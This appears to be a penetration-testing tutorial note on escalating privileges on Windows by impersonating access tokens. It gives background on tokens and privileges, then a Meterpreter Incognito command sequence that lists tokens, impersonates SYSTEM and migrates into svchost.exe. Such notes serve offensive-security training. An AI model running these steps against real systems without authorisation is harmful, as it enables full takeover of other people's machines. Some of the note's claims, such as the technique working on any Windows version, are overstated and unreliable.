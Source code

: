 A token is responsible for identifying and describing the security context a process is running on. It can be thought
of as a temporary key that gives higher privileges to a thread for the amount of time that process is alive.

Access tokens are created by winlogon process every time a user logs in to his account associated with a thread or
a process. This token is then attached to the userinit process, after which all child processes will run at the same
security context the user is on. 

Tokens are categorized based on the varying security levels assigned to them. An access token will typically have one
of the following security levels assigned to them:

- Impersonate-level tokens: created as a direct result of a non-interactive login on Windows, usually through specific
system services or domain logons.
- Delegate-level tokens: created as a direct result of an interactive login on Windows, primarily through traditional
login or remote services like RDP.

The process of impersonating access tokens to elevate privileges will depend on the account that was first exploited
to gain access to the target. If we wish to impersonate access tokens, then we'll need the following privileges:

- SeAssignPrimaryToken: This allows us to impersonate tokens.
- SeCreateToken: This allows us to create an arbitrary token with administrative privileges.
- SeImpersonatePrivilege: This allows a user to create a process under the security context of another
user, usually with administrative privileges.

If we have a Meterpreter shell, we can check if we have this permissions with the getprivs command.

The Incognito module is a built-in Meterpreter plugin that was originally a standalone tool that allow us
to impersonate user tokens after the initial access.

We can utilize the Incognito module to get a list of available token to impersonate.

```bash
# we're on da machineeee!
meterpreter > getprivs
# if we see SeImpersonatePrivilege, we got this biatch!
meterpreter > load incognito
# plug in the plugin!
meterpreter > list_tokens -u
# list the access tokens assigned to different users.
# user tokens are created by direct login, and this are the keys to the kingdom.
meterpreter > impersonate_token "[GROUP]\[USER]"
# for example, NT AUTHORITY\SYSTEM could be a valid access token.
# if we impersonate a token, we have to migrate the meterpreter process
meterpreter > migrate -N svchost.exe
# check any process you want really, as long as it has good privs. not really
# necessary to migrate to a higher priv process, but useful later on.
# by the way: this privesc technique is useful and reliable at any Windows version.
# as long as you have impersonate privs, you'll be able to escalate.
```
